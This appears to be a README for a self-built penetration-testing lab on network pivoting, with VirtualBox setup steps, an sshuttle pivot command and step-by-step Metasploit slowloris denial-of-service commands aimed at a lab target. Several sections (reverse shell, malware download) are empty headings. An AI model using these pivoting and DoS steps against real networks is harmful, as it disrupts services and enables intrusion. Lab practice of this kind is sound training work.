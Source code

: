 # NM-Lab-Network-pivoting

This is a Lab for practicing network pivoting.

## Prerequisite

### Network architecture

The following is our network settings for doing this Lab.

Local (Attacker)  
OS : MacOS or Kali Linux  
IP : 192.168.2.105 (For example)(Connect with Internet)  

VirtualBox VM1 (SSH Server)  
OS : Ubuntu server 20.04  
(Adapter1 橋接網路卡Bridge enp0s3) IP : 192.168.2.113 (For example)  
(Adapter2 內網Internal enp0s8) IP : 192.168.1.1 (For example)  

VirtualBox VM2 (Target machine)  
OS : Ubuntu server 20.04.2 or Kali Linux  
(Adapter2 內網 enp0s8) 192.168.1.100 (For example)    

VirtualBox VM3 (option)  
OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is quite a long process for installing DVWA alone.)  

Step 1 :  
完成VirtualBox的網路介面卡設定  
確認連接內網的網路卡擁有相同的名稱  

Step 2 :  
登陸兩(三)台要連接內網的VM之後，使用  
$ ifconfig -a  
確認內網網路卡的名稱 (In our case, enp0s8)  
然後使用指令  
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up  
開啟網路卡  
192.168.1.1 可以自己設定 (不同的機器要不同 192.168.1.1 192.168.1.100 in our case)  
不過注意每一次開機都要設定  

這樣即完成網路設定
可以用ping指令確認

### Enviroment & Installation

Local (Attacker)  

Ssuttle (For pivoting)  
https://github.com/sshuttle/sshuttle  
Nmap (For scanning)(option)  
https://nmap.org/book/inst-macosx.html  
Metasploit (For using slowloris DOS attack exploit module)  
https://www.metasploit.com    

VirtualBox VM1 (SSH Server)  

ssh service need to be enable  
http service (Apache web service) need to be enable  
root account for sshuttle  
normal user account for port forwarding  

VirtualBox VM2 (Target machine)  

ssh service need to be enable  
http service (Apache web service) need to be enable  

## Ways of Pivoting

### sshuttle

Open terminal  
$ sshuttle -r user@192.168.2.113 192.168.1.0/24  

### dynamic port forwarding


### reverse remote port forwarding


## Ways of Attack

### DOS

Open terminal  
Run metasploitable  
Somewhere in the /opt/metasploit-framework/bin/ if you are using MacOS (High Sierra) like me  
$ ./msfconsole  
(Some configurations if first time use)  
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200 (the number doesn't really matter)  
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  

Now you should see it working !!!  

### reverse shell


### downloading other malwares

